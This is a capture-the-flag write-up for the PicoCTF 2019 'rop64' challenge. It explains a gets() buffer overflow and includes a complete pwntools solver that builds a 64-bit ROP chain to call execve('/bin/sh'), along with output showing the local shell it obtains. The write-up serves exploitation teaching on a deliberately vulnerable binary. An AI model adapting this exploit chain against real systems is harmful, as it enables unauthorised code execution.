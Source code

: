 ```yaml
---
title: ROP 64 bits - execve syscall
description: Exploiting a buffer overflow and using ROP to call execve.
---
```


# ROP 64 bits - execve syscall

## Summary

Exploiting a buffer overflow and using ROP to call `execve`.

## Challenge

### Statement

!!! note ""
    Challenge : `rop64` from PicoCTF 2019.

Time for the classic ROP in 64-bit. Can you exploit this [program](https://2019shell1.picoctf.com/static/8bda0ef23a9ca5c2f395a039006dd5f7/vuln) to get a flag?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Answer

As you can see, we can exploit a buffer overlow on the `gets(buf)` function.

The goal here is to call `execve` with the argument `/bin/sh`.

```
int execve(const char *filename, char *const argv[], char *const envp[]);
```

To do this we can look up at the [syscalls list](https://syscalls.w3challs.com/?arch=x86_64) for x86_64 architecture. The function `execve` is the number `59` and takes 3 arguments. In 64 bits architecture, arguments are passed via registers.

**Goal :** 
```
rax = 0x3b      ; 'execve' syscall id, 0x3b = 59
rdi = /bin/sh   ; Pointer to "/bin/sh" string in memory.
rsi = 0         ; No argument
rdx = 0			; No argument

Then, execute syscall.
```

To find the **padding** of the buffer overflow, I use the `cyclic` and `find_cyclic` functions of the pwntools library.

To set `rax` (or another register to a specified value) to `0x3b` we can use two methods :

1. Using the stack :
	1. `push 0x3b`, add `0x3b` on the stack
	2. `pop rax`, pop `0x3b` into `rax`
2. Using bitwise operations :
	1. `xor rax, rax`, set `rax` to 0
	2. `add rax, 3`, add 3 to `rax` (repeat this 19 times, 19*3=57)
	3. `add rax, 2`, add 2 to `rax` (57+2 = 59 = 0x3B).

To set `rsi` and `rdx` to 0, we will use the stack.

To set `rdi` to a pointer of the `/bin/sh` string in memory, we need to find a writable address. Inside `gdb`, we can use the `vmmap` command to show the range of addresses that are writable. In our case, we will use the first writable address, `0x00000000006b6000`.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/.../rop64/vuln
```

We will use the instruction `mov qword ptr [rax], rdx` to write `/bin/sh` into `0x00000000006b6000`, with `rax` equals to `0x00000000006b6000` and `rdx` to `/bin/sh`.

To find all the gadgets addresses, I use [ropper](https://github.com/sashs/ropper).

```bash
$ ropper -f vuln --search 'pop rdx; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx; ret;

[INFO] File: vuln
0x000000000044bf16: pop rdx; ret;
```

We are now able to write our python solver script.

**Source code (solve.py) :**

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find, log

# context
PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(32)

    proc.sendlineafter(b"Can you ROP your way out of this?\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


"""
0x0000000000444c50: xor rax, rax; ret;
0x00000000004749c0: add rax, 1; ret;
0x00000000004749b7: add rax, 2; ret;
0x00000000004749d0: add rax, 3; ret;

0x000000000048d341: mov qword ptr [rax], rdx; ret;

0x00000000004156f4: pop rax; ret;
0x0000000000400686: pop rdi; ret;
0x00000000004100d3: pop rsi; ret;
0x000000000044bf16: pop rdx; ret;

0x000000000040123c: syscall;
"""

# padding size
padding_size = find_padding_size()
log.info(f"Padding size : {padding_size}")

# gadgets
xor_rax   = p64(0x0000000000444c50)
add_rax_2 = p64(0x00000000004749b7)
add_rax_3 = p64(0x00000000004749d0)
pop_rax   = p64(0x00000000004156f4)
pop_rdi   = p64(0x0000000000400686)
pop_rsi   = p64(0x00000000004100d3)
pop_rdx   = p64(0x000000000044bf16)
bin_sh    = b"/bin/sh\x00"
syscall   = p64(0x000000000040123c)
writable_memory = p64(0x00000000006b6000)
write_memory_into_rax = p64(0x000000000048d341)

# padding
buf = b"A" * padding_size

# write "/bin/sh" string into memory
buf += pop_rdx
buf += bin_sh
buf += pop_rax
buf += writable_memory
buf += write_memory_into_rax

# set rax to '0x3b' (execve syscall id)
"""
buf += pop_rax
buf += p64(0x3b)
"""
buf += xor_rax
buf += add_rax_3 * 19
buf += add_rax_2 * 1

# set 'rdi' to '/bin/sh' address pointer
buf += pop_rdi
buf += writable_memory

# set 'rsi' to 0 
buf += pop_rsi
buf += p64(0)

# set 'rdx' to 0
buf += pop_rdx
buf += p64(0)

# syscall
buf += syscall

proc = process(PROGRAM)
proc.sendlineafter(b"Can you ROP your way out of this?\n", buf)
proc.interactive()
```

**Execution :**

```bash
$ python3 solve.py
[+] Starting local process './vuln': pid 14552
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 14552)
[+] Parsing corefile...: Done
[*] '/home/.../rop64/core.14552'
    Arch:      amd64-64-little
    RIP:       0x400b6e
    RSP:       0x7ffcdaa49cd8
    Exe:       '/home/.../rop64/vuln' (0x400000)
    Fault:     0x6161616861616167
[*] Padding size : 24
[+] Starting local process './vuln': pid 14566
[*] Switching to interactive mode
$ id
uid=1000(xanhacks) gid=1000(xanhacks) groups=1000(xanhacks),995(audio),998(wheel)
```